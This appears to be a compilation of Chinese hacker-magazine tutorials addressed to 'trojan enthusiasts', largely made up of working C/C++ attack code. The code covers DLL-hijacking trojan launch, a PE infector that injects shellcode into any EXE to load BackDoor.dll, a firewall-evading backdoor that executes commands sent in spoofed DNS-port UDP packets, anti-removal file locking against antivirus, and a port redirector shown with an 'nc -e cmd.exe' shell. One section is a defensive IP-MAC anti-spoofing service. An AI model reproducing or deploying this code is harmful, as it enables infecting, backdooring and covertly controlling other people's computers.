| 1 (0x0001) | 0 (0x0000) | manager | 0x000011D0 |

图1

个简单的例子：

```cpp
// testing.exe
#include <windows.h>
int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR lpCmdLine,
                     int nCmdShow)
{
    HINSTANCE hDLL; // handle to DLL module
    FARPROC funAddr; // 函数地址
    hDLL = LoadLibrary("test.DLL");
    if (!hDLL)
    {
        MessageBox(0, "LoadLibrary failed", "sorry", MB_OK);
        exit(1);
    }
    funAddr = GetProcAddress(hDLL, "manager");
    (*funAddr)();
    return TRUE;
}
```

本质上不过是在远程进程中执行了这句代码而已：`LoadLibrary("BackDoor.DLL")`。就这么简单。可是我们却写了一大堆的代码，能更简单点吗？不能。以下以 DLL 为例，我采用 MinGW Developer Studio 编译，效果同 VC++：

```cpp
// test.DLL
#include <windows.h>
__declspec(DLLEXPORT) void manager()
{
    MessageBox(0, "just a test", "Hi", MB_OK);
}

BOOL WINAPI DLLMain(HINSTANCE hinstDLL,
                    DWORD fdwReason,
                    PVOID fImpLoad)
{
    switch(fdwReason)
    {
        case DLL_PROCESS_ATTACH:
            MessageBox(0, "DLL_PROCESS_ATTACH", "now", 0);
            break;
        default:
            break;
    }
    return TRUE;
}
```

编译后用 DEPENDS.EXE（VC++ 自带）查看，可以看到有一个导出函数，如图 1 所示。那么我们该如何利用这里的函数呢？

整个流程如下：LoadLibrary → GetProcAddress → `(*funAddr)()`。我们在自己的程序中调用自己 DLL 中的函数，别人的程序也是这样做的。这个过程本身没有问题；但如果人为加入一次“中介代理”，就可以非常隐蔽地启动我们的 DLL 木马。

正常情况下：A.exe → `LoadLibrary("a.DLL")` → 调用 a.DLL 中的函数 a()。

自己写一个 DLL 木马 BackDoor.DLL，同时也实现函数 a()，并保持参数和返回值一致。通过工具分析原 DLL 后，可在 BackDoor.DLL 启动时先执行 `hOtherDLL = LoadLibrary("a.DLL")`，再在 BackDoor.DLL 中的 a() 里转调原函数。

```cpp
void a()
{
    funAddr = GetProcAddress(hOtherDLL, "a");
    (*funAddr)();
}
```

将 a.DLL 重命名为 t.DLL，再将 BackDoor.DLL 重命名为 a.DLL 并拷贝到 A.exe 同目录下，则流程变为：A.exe → BackDoor.DLL（重命名为 a.DLL）→ BackDoor.DLL 中 `LoadLibrary("t.DLL")` → 调用 BackDoor.DLL 中的 a() → BackDoor.DLL 中的 a() 再调用 t.DLL 中的函数 a()。

```cpp
// BackDoor.DLL
// 将BackDoor.DLL重命名为test.DLL，将原来的test.DLL重命名为a.DLL，然后运行testing.exe
#include <windows.h>
```

```c
void BackDoor()
{
    MessageBox(0, "This is BackDoor", "Hi", MB_OK);
}

__declspec(DLLexport) void manager()
{
    HANDLE hThread;
    hThread = CreateThread(NULL, NULL, (LPTHREAD_START_ROUTINE)&BackDoor, NULL, NULL, NULL);
    MessageBox(0, "just a test", "Hi", MB_OK);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, PVOID fImpLoad)
{
    switch(fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        MessageBox(0, "DLL_PROCESS_ATTACH", "now", 0);
        LoadLibrary("a.DLL");
        break;
    default:
        break;
    }
    return TRUE;
}
```

对比前面的 `test.DLL`，我们增加了一个后门函数和一个启动后门函数的线程，现在我们的后门程序便得到了“永生”，运行 `testing.exe` 看看效果，如图 2 所示。


比起改注册表、增加服务、替换系统服务的方法隐蔽多了吧？我们避免了这些操作，代价是应用程序目录下比原来多了一个 DLL。不过一般人是不会注意应用程序 DLL 的，可以说打入了系统安全的死角。将例程中的 `test.DLL` 改成 `t.jpg`（`hDLL = LoadLibrary("t.jpg")`），然后将该目录下的 `test.DLL` 重命名为 `t.jpg`，运行程序同样弹出 MessageBox。也就是说 DLL 的名字可以随意设定，根据需要改成 dat、inf 之类。总结：此法制作木马较麻烦，需要应用程序导出函数返回值与参数保持一致。

适合读者：木马爱好者  
前置知识：C 语言基础，PE 结构基础，《ShellCode 自动化提取的设计与实现》

#### 捆绑任意可执行文件做木马

文/图 刘奇

当前主流的木马是 DLL 木马。本文就 DLL 木马的启动提供另一种隐蔽的方法，作为对《隐藏的木马启动方法》的补充。我们知道 DLL 木马必须由 EXE 文件来加载，常见方式是修改引入表。而本文采用的方式是给 EXE 文件增加一个新节，并且在新增节里写入启动 DLL 木马的代码。由于需要在不同平台下使用，所以函数地址需要动态确定，这里采用 ShellCode 常用方法。

- 增加一个新节；
- 写入启动代码。

增加一个新节需要增加原来文件的大小，我使用纯 C 来实现。方法是定位到文件尾部，写入一个节的数据，数据全部是零。还是来看具体代码（节选）吧：

```c
#define EXTRA_CODE_LENGTH 18
#define SECTION_SIZE      0x1000
#define SECTION_NAME      ".ngaut"
#define FILE_NAME_LENGTH  30

int Align(int size, int ALIGN_BASE)
{
    // ...
}
```

```c
// 程序用法
void usage()
{
    printf("用法:\n");
}
```

```c
printf("LoadBackDoor.exe FileName\n");
printf("eg:\n");
printf("\t LoadBackDoor.exe test.exe\n");
printf("Code by ...\n");

int main(int argc, char *argv[])
{
    IMAGE_DOS_HEADER DosHeader;
    IMAGE_NT_HEADERS NtHeader;
    IMAGE_SECTION_HEADER SectionHeader;
    IMAGE_SECTION_HEADER newSectionHeader;
    int numOfSections;
    FILE *pNewFile;
    int FILE_ALIGN_MENT;
    int SECTION_ALIGN_MENT;
    char srcFileName[FILE_NAME_LENGTH];
    char newFileName[FILE_NAME_LENGTH];
    int i;
    int extraLengthAfterAlign;
    unsigned int newEP;
    unsigned int oldEP;
    BYTE jump;
    char *pExtraData;
    int extra_data_real_length;

    if (NULL == argv[1]) {
        puts("参数错误\n");
        usage();
        exit(0);
    }

    strcpy(srcFileName, argv[1]);
    strcpy(newFileName, srcFileName);
    strcat(newFileName, ".exe");

    if (!CopyFile(srcFileName, newFileName, FALSE)) {
        puts("Copy file failed");
        exit(0);
    }

    pNewFile = fopen(newFileName, "rb+");
    if (NULL == pNewFile) {
        puts("Open file failed");
        exit(0);
    }

    fseek(pNewFile, 0, SEEK_SET);
    fread(&DosHeader, sizeof(IMAGE_DOS_HEADER), 1, pNewFile);
    if (DosHeader.e_magic != IMAGE_DOS_SIGNATURE) {
        puts("Not a valid PE file");
        exit(0);
    }

    fseek(pNewFile, DosHeader.e_lfanew, SEEK_SET);
    ...
}
```

```c
fread(&NtHeader, sizeof(IMAGE_NT_HEADERS), 1, pNewFile);
if (NtHeader.Signature != IMAGE_NT_SIGNATURE) {
    puts("Not a valid PE file");
    exit(0);
}

numOfSections = NtHeader.FileHeader.NumberOfSections;
FILE_ALIGN_MENT = NtHeader.OptionalHeader.FileAlignment;
SECTION_ALIGN_MENT = NtHeader.OptionalHeader.SectionAlignment;
oldEP = NtHeader.OptionalHeader.AddressOfEntryPoint;

for (i = 0; i < numOfSections; i++) {
    fread(&SectionHeader, sizeof(IMAGE_SECTION_HEADER), 1, pNewFile);
}

extraLengthAfterAlign = Align(EXTRA_CODE_LENGTH, FILE_ALIGN_MENT);
NtHeader.FileHeader.NumberOfSections++;

memset(&newSectionHeader, 0, sizeof(IMAGE_SECTION_HEADER));
strncpy(newSectionHeader.Name, SECTION_NAME, strlen(SECTION_NAME));

newSectionHeader.VirtualAddress = Align(
    SectionHeader.VirtualAddress + SectionHeader.Misc.VirtualSize,
    SECTION_ALIGN_MENT
);

newSectionHeader.Misc.VirtualSize = Align(extraLengthAfterAlign, SECTION_ALIGN_MENT);
newSectionHeader.PointerToRawData = Align(
    SectionHeader.PointerToRawData + SectionHeader.SizeOfRawData,
    FILE_ALIGN_MENT
);
newSectionHeader.SizeOfRawData = Align(SECTION_SIZE, FILE_ALIGN_MENT);
newSectionHeader.Characteristics = 0xE0000020;

NtHeader.OptionalHeader.SizeOfCode = Align(
    NtHeader.OptionalHeader.SizeOfCode + SECTION_SIZE,
    FILE_ALIGN_MENT
);
NtHeader.OptionalHeader.SizeOfImage = NtHeader.OptionalHeader.SizeOfImage
    + Align(SECTION_SIZE, SECTION_ALIGN_MENT);
...
```

```c
// 修正 SizeOfImage
NtHeader.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].VirtualAddress = 0;
NtHeader.OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BOUND_IMPORT].Size = 0;

fseek(pNewFile, 0, SEEK_END);
newEP = newSectionHeader.VirtualAddress;
NtHeader.OptionalHeader.AddressOfEntryPoint = newEP;

// 定位节表尾部
fseek(pNewFile,
      DosHeader.e_lfanew + sizeof(IMAGE_NT_HEADERS)
      + numOfSections * sizeof(IMAGE_SECTION_HEADER),
      SEEK_SET);

// 写入修正后的节头
fwrite(&newSectionHeader, sizeof(IMAGE_SECTION_HEADER), 1, pNewFile);

// 写入修正后的PE文件头（NT头）
fseek(pNewFile, DosHeader.e_lfanew, SEEK_SET);
fwrite(&NtHeader, sizeof(IMAGE_NT_HEADERS), 1, pNewFile);

// 定位到文件尾部
fseek(pNewFile, 0, SEEK_END);
// 写入新节（先写入0）
for (i = 0; i < Align(SECTION_SIZE, FILE_ALIGNMENT); i++) {
    fputc(0, pNewFile);
}

// 定位到新节开头
fseek(pNewFile, newSectionHeader.PointerToRawData, SEEK_SET);

goto GetExtraData;
extra_data_start:
__asm pushad;
...（省略部分代码）
```

```c
__asm mov pExtra_data, eax;
__asm lea edx, extra_data_end;
__asm sub edx, eax;
__asm mov extra_data_real_length, edx;
__asm popad;

// 写入附加数据（用于启动DLL木马）
for (i = 0; i < extra_data_real_length; i++) {
    fputc(pExtra_data[i], pNewFile);
}

oldEP = oldEP - (newEP + extra_data_real_length) - 5;
jmp = 0xE9; // 写入JMP oldEP语句
fwrite(&jmp, sizeof(jmp), 1, pNewFile);
fwrite(&oldEP, sizeof(oldEP), 1, pNewFile);
fclose(pNewFile);
return 0;
}
```

测试DLL木马，以显示一个MessageBox为例，测试时木马要和测试程序在同一目录，程序运行如图1所示。


图1

运行flashget.exe.exe可以看到我们的DLL木马已经启动了，如图2所示。注意看下面的图标，已经是flashget的图标了。现在可以让我们的DLL木马无拘无束地跟随（感染）QQ、FlashGet等任何一个合法的程序了。使用方法：`pe target.exe`。`target.exe`是我们要感染的文件名，复制后门BackDoor.dll到target.exe所在目录即可。如果target.exe被防火墙允许访问网络，那么我们的BackDoor.dll也可以自由自在地访问网络了。


图2

```asm
__asm call [ebp + 40h]   // 返回值（LoadLibrary地址）保存在eax中
__asm mov [ebp + 44h], eax
__asm push 0x0
__asm push DWORD PTR 0x726f6f44  // "Door"
__asm push DWORD PTR 0x6b636142  // "Back"
__asm push esp                    // "BackDoor"地址
__asm call [ebp + 44h]            // 调用LoadLibrary

__asm mov esp, ebp
__asm add esp, 0x50
__asm popad
extra_data_end:
GetExtraData:
__asm pushad
__asm lea eax, extra_data_start
```

适合读者：编程爱好者，木马爱好者

前置知识：无

#### 穿过防火墙的 Shell 后门

文／图 lik2


记得zwell大侠在《一种新的穿透防火墙的数据传输技术》中提到通过直接控制DNS进程来实现数据穿透防火墙的传输，基本步骤是：

- 找出目标进程
- 找出SOCKET句柄
- 用DuplicateHandle()函数将其SOCKET转换为能被自己使用
- 用转换后的SOCKET进行数据传输

但是由于诸多原因，编程实现起来很复杂。通过对主流防火墙的分析，发现防火墙对DNS查询数据报过滤不严格，就拿天网防火墙来说吧，规则如下（如图1所示）。


图1

不管源IP地址是什么，只要源端口是53的UDP数据报都会顺利通过防火墙。虽然能够正常通过防火墙，却不能直接通过监听目的端口来接收这些数据报，因为应用程序成为网络服务也要经过防火墙审核的。我们可以通过使用原始套接字监听网卡，实现对数据报的接收。如下是接收程序的设计：

```c
unsigned char ttl; // 8位生存时间TTL
unsigned char proto; // 8位协议（TCP、UDP或其他）
unsigned short checksum; // 16位IP首部校验和
unsigned int sourceIP; // 32位源IP地址
unsigned int destIP; // 32位目的IP地址
} IPHeader; // IP首部长度为20

// 定义UDP头
typedef struct UDPPacketHead {
  unsigned short SourPort; // 源端口
  unsigned short DestPort; // 目的端口
  unsigned short Len; // 数据包长度
  unsigned short ChkSum; // 校验和
} UDPHeader;

// 定义CMDSHELL结构体
typedef struct _CMDSHELL {
  unsigned long id;
  char cmd[255];
} CMDSHELL;

int main(int argc, char* argv[]) {
  ...
}
```

```c
// sniffer.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <stdio.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include "mstcpip.h"
#include <string.h>
#include <shellapi.h>
#include <stdlib.h>
#pragma comment(lib,"WS2_32")

typedef struct PPacketHead {
  unsigned char h_lenver;
  unsigned char tos;
  unsigned short total_len;
  unsigned short ident;
  unsigned short frag_and_flags;
  ...
};
```

```cpp
memcpy(&local.sin_addr.S_un.S_addr, host->h_addr_list[0], host->h_length);
bind(s, (sockaddr*)&local, sizeof(local));
DWORD dwSet = 1; // 将网卡设置成混杂模式
ioctlsocket(s, SIO_RCVALL, &dwSet);
char buffer[65535] = {0};
if (WSAGetLastError() != 0) {
    printf("产生错误:%d", WSAGetLastError());
    closesocket(s);
    WSACleanup();
}
printf("开始监听....\n"); // 开始循环接收数据报
for (; recv(s, buffer, 65535, 0) > 1; memset(buffer, 0, 65535)) {
    IPHeader *pIp = (IPHeader*)buffer;
    if (pIp->proto != IPPROTO_UDP) continue;
    in_addr addr; addr.S_un.S_addr = pIp->sourceIP;
    unsigned char *pOffset = (unsigned char*)pIp;
    pOffset += pIp->h_len * 4;
    UDPHeader *pUdp = (UDPHeader*)pOffset;
    if (pUdp->SourPort != htons(53)) continue;
    pOffset += 8;
    CMDSHELL *cmd = (CMDSHELL*)(pOffset);
    if (cmd->id != 0x74657374) continue;
    printf("Saddr:%s", inet_ntoa(addr));
    printf(" Cmd:%s\n", cmd->cmd);
    system(cmd->cmd);
}
closesocket(s);
WSACleanup();
return 0;
```

这里需要说明的是Windows XP SP2是支持原始IP套接字的，所以程序可以很好地在Windows XP SP2平台上工作，剩下的工作就是通过构造伪装成DNS回应信息的UDP数据报来实现命令字符串的发送了，具体实现如下。

```cpp
// UdpSend.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <Winsock.h>
#pragma comment(lib,"WS2_32")

// 定义发送的命令结构体
typedef struct _CMDSHELL {
    unsigned long id;   // 标识符
    char cmd[255];      // 命令字符串
} CMDSHELL;

int main(int argc, char* argv[]){
    if (argc != 3) {
        printf("usage: exec ip cmd");
        return 0;
    }
    WSADATA wsadata;
    WSAStartup(MAKEWORD(1,1), &wsadata);
    SOCKET s = socket(AF_INET, SOCK_DGRAM, 0);
    ...
}
```

```cpp
printf("QQ:66734111\n");
printf("usage: exec ip cmd");
printf("\n");
return 0;

WSADATA wsadata;
WSAStartup(MAKEWORD(1,1), &wsadata);
SOCKET s; // 建立UDP套接字
s = socket(AF_INET, SOCK_DGRAM, 0);
char hostname[255];
gethostname(hostname, 255);
hostent *h = gethostbyname(hostname);
sockaddr_in l;
memcpy((unsigned char*)&l.sin_addr.S_un.S_addr, h->h_addr_list[0], 4);
CMDSHELL cmd = {0}; // 标识位设置为 "test"
cmd.id = 0x74657374;
strcpy(cmd.cmd, argv[2]);
l.sin_family = AF_INET;
l.sin_port = htons(53);
bind(s, (sockaddr*)&l, sizeof(l));

sockaddr_in r;
memcpy((unsigned char*)&r.sin_addr.S_un.S_addr, h->h_addr_list[0], 4);
r.sin_family = AF_INET;
r.sin_port = htons(80); // 发送命令结构体
sendto(s, (char*)&cmd, sizeof(cmd), 0, (sockaddr*)&r, sizeof(r));

if (WSAGetLastError() != 0) {
    printf("发生错误:%d", WSAGetLastError());
}
printf("发送成功!");
closesocket(s);
WSACleanup();
return 0;
```

我们编译运行一下，先运行服务端，然后客户端就可以发送命令字符串了，如图2所示。


图2

大家看到没有，服务端程序运行不会引起防火墙的报警，程序可以轻松地穿过防火墙实现数据的单向传输，并且服务端程序并没有打开任何端口，实现无进程也非难事。遗憾的是后门不能回显命令执行结果，但毕竟实现对防火墙内部主机的控制了。本程序在Windows XP SP2 + Visual C++ 6.0下编译通过。

适合读者：程序员、木马爱好者

前置知识：C/C++基础

## 拒马技——用CreateFile保护木马

文／图 刘奇

杀毒软件越来越强，杀马软件日益增多，怎么让自己的木马不被对方的安全软件查杀无疑是一个难点。防止木马被查杀分为两个方向：

- 不被查到，这个介绍得太多了，如修改特征码、加壳等等；
- 不被杀掉，本文将要讨论的问题。

知己知彼，百战不殆。我们知道，当程序运行的时候是不允许删除的，虽然有一些程序具有自删除功能。可是那是自己删除自己。我们的程序虽然不能被删除，却可以被重命名，可惜重命名后还是不能删除……

以木马克星为例，其杀马过程一般是这样的：当查到木马后，如果在内存中，则取得木马在硬盘对应文件的所在路径，然后杀掉木马进程，删除木马文件。如果删除不了则重命名木马，待重新启动后删除改名后的木马……

知道这些“小伎俩”，我们就来对招拆招。

保护方案一：保证木马不被删除，但是可能会被重命名，然后删除，所以还要加上下面的方案。

保护方案二：保证木马不被重命名。

微软为我们提供了一个API：CreateFile，可以有效地解决这两个问题，该函数的声明如下：

```c
HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

对我们来说关键的是第3个参数dwShareMode，总共有3种选择“FILE_SHARE_DELETE、FILE_SHARE_READ、FILE_SHARE_WRITE”。其中“FILE_SHARE_READ”可以有效保护我们的木马不被删除和重命名，简单写个测试程序如下：

```c
int main()
{
    ...
}
```

```c
char fName[20];
HANDLE hFile;
printf("Enter the file name:");
scanf("%s", fName);
hFile = CreateFile(fName,
    GENERIC_READ,
    FILE_SHARE_READ,
    NULL,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    NULL);
if (hFile == INVALID_HANDLE_VALUE)
{
    printf("Could not open file (error %d)\n", GetLastError());
    scanf("%s", fName);
    CloseHandle(hFile);
    return 0;
}
scanf("%s", fName);
CloseHandle(hFile);
return 0;
```

运行该程序后输入文件名如flashget.exe，试着删除或重命名flashget.exe，结果都失败了，如图1所示。


图1

那么如何有效地利用上面的实验结果呢？假设我们的DLL木马注射到Explorer.exe中，现在赶紧修改DLL木马的源代码，在你的DLL木马中多启动一个线程，用CreateRemoteThread注射一段代码到另外一个非explorer.exe的进程中，如SVCHOST.EXE，该段代码以FILE_SHARE_READ的形式打开你的DLL木马，同时保持文件不被关闭……这里就不提供代码了。

现在我们的DLL木马有了金刚不坏之身，是不是安全多了？本文测试环境：Windows XP SP2，MINGW gcc编译。

适合读者：编程爱好者、入侵爱好者  
前置知识：无

#### 轻松编写端口重定向程序

文/图 Ilikz


在渗透内网或者防火墙内主机时，端口重定向程序的使用能让我们如鱼得水，轻松跨过这些障碍。大家对 AngleShell、lcx、fpipe 等端口重定向程序一定不会陌生，其中一部分通过本机的配合（当然有的是外网中的），可以将远程端口映射到本机的某一端口。

先说说端口重定向实现原理。假设一台目标机位于防火墙内，只对外开放了 80 端口，并且此机开启了终端服务，重定向过程如下：

在目标机建立两个套接字 Socket1、Socket2。Socket1 监听 80 端口，当有连接到来时，Socket2 连接 3389 端口，将 Socket1 接收到的数据通过 Socket2 转发。这样就能通过访问目标机 80 端口来连接 3389 端口了。

程序中由于要管理两个套接字，我们不能不介绍一个 Socket 编程中非常重要的函数 select() 多路 I/O 复用。使用时别忘了包含头文件 fcntl.h，函数原型如下：

```c
int select(int nfds, fd_set *readfds, fd_set *writefds, fd_set *exceptfds, struct timeval *timeout);

readfds   所有要读的文件句柄选择的集合
writefds  所有要写的文件句柄选择的集合
exceptfds 异常文件句柄集合
timeout   超时设置
```


在上述参数中我们感兴趣的只有 readfds，把 writefds 和 timeout 结构体设置成 NULL 即可。其中设置 timeout 指针为 NULL，表示 select 无限等待，直到 fd_set 集中有套接字可读。

除此之外还有几个设置套接字使用的宏定义：

```c
void FD_SET(int fd, fd_set *fdset);    // 将 Socket 套接字加入到 fd_set 集合
void FD_CLR(int fd, fd_set *fdset);    // 将 Socket 套接字从 fd_set 中删除
void FD_ZERO(fd_set *fdset);           // 清除 Socket 套接字和 fd_set 的关联
int  FD_ISSET(int fd, fd_set *fdset);  // 判断 Socket 套接字是否在 fd_set 中
```

下面我们来看 select() 函数的使用方法，在 iSeries 信息中心有关于使用 select 的示例，如图1所示。

在本例中使用流程大致如下：

```c
fd_set fdr;
FD_ZERO(&fdr);
FD_SET(Socket1, &fdr);
FD_SET(Socket2, &fdr);
ret = select(Socket2 + 1, &fdr, NULL, NULL, NULL);
if (ret == -1) // select 出现错误，错误处理代码；
if (FD_ISSET(Socket1, &fdr)) // Socket1 可读，读取并处理数据的操作；
if (FD_ISSET(Socket2, &fdr)) // Socket2 可读，读取并处理数据的操作；
```

```cpp
// report.cpp : Defines the entry point for the console application.
#include "stdafx.h"
#include <windows.h>
#include <winsock.h>
#include <fcntl.h>
#include <stdlib.h>
#pragma comment(lib,"WS2_32.lib")

struct SOCKSTRUCT {
    SOCKET* lsock;
    SOCKET* csock;
};

LPTHREAD_START_ROUTINE talk(LPVOID lparam)
{
    struct SOCKSTRUCT *conn = (struct SOCKSTRUCT*)lparam;
    while (1)
    {
        fd_set fdr;
        FD_ZERO(&fdr);
        FD_SET(*(conn->csock), &fdr);
        FD_SET(*(conn->lsock), &fdr);

        int ret = select(*(conn->lsock) + 2, &fdr, NULL, NULL, NULL);
        if (ret == -1) return 0;

        if (FD_ISSET(*(conn->csock), &fdr)) {
            char buffer[1024];
            int len = recv(*(conn->csock), buffer, 1024, 0);
            if (len == -1) return 0;
            buffer[len] = '\0';
            printf("remote->local:\n");
            send(*(conn->lsock), buffer, len, 0);
        }

        if (FD_ISSET(*(conn->lsock), &fdr)) {
            char buffer[1024];
            int len = recv(*(conn->lsock), buffer, 1024, 0);
            if (len == -1) return 0;
            buffer[len] = '\0';
            printf("local->remote:\n");
            send(*(conn->csock), buffer, len, 0);
        }
    }
}

int main(int argc, char* argv[]) {
    if (argc != 4) {
        printf("usage:\n");
        printf("redirect localport remoteaddr remoteport\n");
        return 0;
    }

    WSADATA data;
    if (WSAStartup(MAKEWORD(2,2), &data) == SOCKET_ERROR) return 0;

    struct sockaddr_in ls;
    ls.sin_family = AF_INET;
    ls.sin_port = htons(atoi(argv[1]));
    ls.sin_addr.s_addr = INADDR_ANY;

    SOCKET lsock1 = socket(AF_INET, SOCK_STREAM, 0);
    bind(lsock1, (struct sockaddr*)&ls, sizeof(ls));
    listen(lsock1, 1);

    SOCKET lsock = accept(lsock1, NULL, NULL);
    SOCKET csock = socket(AF_INET, SOCK_STREAM, 0);

    struct sockaddr_in lc;
    lc.sin_family = AF_INET;
    lc.sin_port = htons(atoi(argv[3]));
    lc.sin_addr.s_addr = inet_addr(argv[2]);
    connect(csock, (struct sockaddr*)&lc, sizeof(lc));

    struct SOCKSTRUCT twosock;
    twosock.csock = &csock;
    twosock.lsock = &lsock;

    HANDLE hthread = CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)talk, (LPVOID)&twosock, 0, NULL);
    WaitForSingleObject(hthread, INFINITE);
    CloseHandle(hthread);
    WSACleanup();
    return 0;
}
```

以上程序在 Windows XP SP2、Visual C++ 6.0 下编译通过。

看看运行情况怎么样，我使用 NC 监听本机的 23 端口：`nc -v -l -p 23 -e cmd.exe`，用来模拟 Telnet 服务，如图2所示。


图2

然后运行重定向程序 `redirect 1234 127.0.0.1 23`，如图3所示。


图3

使用 nc 连接本机的 1234 端口就获得了一个 Shell，如图4所示。


图4

这样，就将目标机的 23 端口重定向到了 1234 端口。注意，如果像 lcx.exe 那样将目标机的端口重定向到本机端口，需要本机运行相应程序来配合。

---

适合读者：系统管理员、程序爱好者  
前置知识：C#、ASP.NET

## 我的系统丧葬护身符

## C#编写IP-MAC防欺骗程序

文/图 汤力


单位的学生成绩管理系统是 ASP.NET 做的，很担心非法人员修改。为了方便管理，单位的每台机子 IP 是固定的。由于只是允许办公计算机访问成绩修改的页面，计算机数量并不多，所以我把所有办公计算机的 IP-MAC 专门做一张数据库表，且一一对应。操作之前判断来访的 IP-MAC 地址，且 IP-MAC 成对限制。两个地址必须同时正确才可以访问，若不一致则拒绝访问，并且记录该信息，方便我们找出非法操作者。

这是我们最初方案，但是程序做好以后，却发现了新的问题。当有人要做非法操作，会出现以下情况：只修改 IP、只修改 MAC、同时修改 IP-MAC。对于前两种情况，我们的服务器端已经可以判断、限制了。但是对于情况三，非法操作者成对修改 IP-MAC，而且该 IP-MAC 对是其他被授权主机的正确 IP-MAC 对，在服务器端我们已经无力限制。于是便有了方案二：做一个判断 MAC 地址是否被修改的 Windows 服务，这个服务安装在每个客户机上，如果 MAC 地址被修改，关闭客户端的 IE，从而限制访问。

```csharp
{
    byte[] macinfo = new byte[6]; // 做一个数组，准备存储MAC地址
    int len = macinfo.Length; // 得到数组长度
    int ii = SendARP(ldest, lhost, macinfo, ref len); // macinfo就是返回的MAC地址指针

    Label_mac.Text = "Mac Addr" + BitConverter.ToString(macinfo, 0, len); // 将获得的MAC地址转换成易读的形式
}
catch(Exception err)
{
    Label_ip.Text = err.ToString(); // 获取系统给出的错误信息
}
```

SendARP 的函数原型如下：

```c
DWORD SendARP(
  IPAddr DestIP,      // 目标IP地址
  IPAddr SrcIP,       // 源IP地址
  PULONG pMacAddr,    // 返回MAC地址指针
  PULONG PhyAddrLen   // 返回MAC地址长度
);
```

##### 方案一

服务器端实现，实现的关键代码如下：

```csharp
using System.Runtime.InteropServices;

[DllImport("iphlpapi.dll", ExactSpelling=true)]
public static int SendARP(int DestIP, int SrcIP, [Out] byte[] pMacAddr, ref int PhyAddrLen);

[DllImport("WS2_32.dll")]
private static extern Int32 inet_addr(string ip);

private void Button1_Click(object sender, System.EventArgs e)
{
    string client_ip = Request.UserHostAddress;
    Label_ip.Text = client_ip;
    Int32 ldest = inet_addr(client_ip);
    Int32 lhost = inet_addr("192.168.1.80");
    try
    {
        // ...
    }
}
```


我的测试页面如图1所示。

当有人进行非法操作，会出现如下情况：

- 1. 只修改 IP；
- 2. 只修改 MAC；
- 3. 同时修改 IP 和 MAC。

情况1，非法操作者做如下修改：选择“本地连接”的属性，如图2所示。进入 Internet 协议，修改自己 IP，如图3所示。

情况2，非法操作者做如下修改：选择“本地连接”的属性，如图4所示。选择“配置”，修改网卡……


属性如图5所示。在“高级”选项卡中选中“Network Address”，默认值是“不存在”，非法操作者在“值”中随便填入一个 MAC 值，达到修改 MAC 的目的。MAC 地址存储在网卡的 EEPROM 中并且是唯一确定的，但网卡驱动在发送 Ethernet 报文时，并不从 EEPROM 中读取 MAC 地址，而是在内存中建立一块缓冲区，从中读取源 MAC 地址。因此用户可通过上述方式或第三方软件修改实际发送报文中的源 MAC 地址。

```csharp
ManagementClass mcMAC = new ManagementClass("Win32_NetworkAdapterConfiguration");
ManagementObjectCollection mocMAC = mcMAC.GetInstances();
foreach (ManagementObject m in mocMAC)
{
    if ((bool)m["IPEnabled"])
    {
        mymac1 = m["MacAddress"].ToString();
        break;
    }
}
```

在 Timer 控件的 Elapsed（达到间隔时发生）事件中添加如下代码：

```csharp
private void timer_watchmac_Elapsed(object sender, System.Timers.ElapsedEventArgs e)
{
    // WMI 在 C# 中的使用
    ManagementClass mcMAC = new ManagementClass("Win32_NetworkAdapterConfiguration");
    ManagementObjectCollection mocMAC = mcMAC.GetInstances();
    foreach (ManagementObject m in mocMAC)
    {
        if ((bool)m["IPEnabled"])
        {
            mymac2 = m["MacAddress"].ToString();
            if (mymac2 != mymac1)
            {
                Process[] myProcesses = Process.GetProcesses();
                foreach (Process myProcess in myProcesses)
                {
                    if (myProcess.ProcessName == "IEXPLORE")
                    {
                        myProcess.Kill();
                    }
                }
            }
            break;
        }
    }
}
```

##### 方案二

它作为一个服务安装在每个客户机上，把服务设置为随 Windows 启动而启动，禁止“暂停”和“停止”该服务，如图6所示。加入一个 Timer 控件（timer_watchmac），用于确定监控 MAC 地址值的时间间隔。


注意，该控件一定是“工具箱/组件”中的 Timer。C# 中有 3 个 Timer 控件：System.Timers.Timer、System.Windows.Forms.Timer、System.Threading.Timer，它们并不一样，如图7所示。服务监控的关键代码如下：


```csharp
using System.Management; // 要操作WMI需要此命名空间
public string mymac1; // 记录原始MAC
public string mymac2; // 服务监控当前MAC
```

初始化服务的时候，就读取本机 MAC 地址。

```csharp
protected override void OnStart(string[] args)
{
    // TODO: 在此处添加代码以启动服务。
    timer_watchmac.Enabled = true;
}
```

| 字段 | 说明 |
|---|---|
| MACAddress | Data type: string |
| Access type | Read-only |
| Description | Media Access Control (MAC) address of the network adapter |
| Example | `00:80:C7:8F:6C:96` |

WMI 中 Win32_NetworkAdapterConfiguration 的定义如上。总结来说，在服务器和客户机上进行双重限制更保险；也可借助可读取 EEPROM 地址的第三方软件，将读取值作为初始值供监视服务比对。若发现篡改，可通过进程控制等方式阻断非法操作。

Socket：大部分的木马程序都有一个实用的功能：根据用户配置信息生成相应的 EXE 文件（如设置 IP、端口等）。这种 EXE 文件被称为木马服务端。它是用什么原理生成的呢？喜欢编写木马的朋友就跟着看过来吧！

适合读者：木马爱好者、编程爱好者  
前置知识：无

#### 自写木马服务端

文/宋庭亮

用 WinHex 等软件打开木马的服务端，你会发现用户配置都存放在 EXE 的尾部，服务端 EXE 在运行时只要读取自身尾部的数据就可以了。那么服务端 EXE 本身从何而来呢？当然是预先编译好的，放在主体软件的资源中，需要时进行释放就可以了。

既然知道了原理，现在我们就动手做一个小程序试试。首先要做的是服务端模板，让其运行后读取自身尾部的数据。

